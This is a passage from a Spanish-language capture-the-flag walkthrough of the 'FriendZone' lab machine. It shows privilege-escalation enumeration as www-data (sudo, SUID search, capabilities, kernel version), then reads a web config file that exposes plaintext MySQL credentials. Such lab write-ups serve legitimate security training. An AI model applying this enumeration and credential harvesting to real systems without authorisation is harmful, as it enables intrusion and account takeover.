 ## Escalada

Estamos como el usuario **www-data**, tendremos que escalar hasta root.

```sh
www-data@FriendZone:/home/friend$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@FriendZone:/home/friend$ sudo -l
[sudo] password for www-data:   # No me sé ninguna contraseña

www-data@FriendZone:/home/friend$ find / \-perm -4000 2>/dev/null
/bin/fusermount
/bin/umount
/bin/mount
/bin/su
/bin/ntfs-3g
/bin/ping
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/sbin/exim4
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
# No hay ninguno creo que se pueda usar para la escalada.

www-data@FriendZone:/home/friend$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep

www-data@FriendZone:/home/friend$ lsb_release -a  # Distribución Linux más o menos reciente.
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.1 LTS
Release:	18.04
Codename:	bionic

www-data@FriendZone:/home/friend$ uname -a    # Para buscar nombre y versión de kernel, la versión no es muy antigua.
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Echaremos un vistazo a los archivos del sistema.

```sh
www-data@FriendZone:/var/www$ ls
admin  friendzone  friendzoneportal  friendzoneportaladmin  html  mysql_data.conf  uploads
www-data@FriendZone:/var/www$ wc -l mysql_data.conf 
7 mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
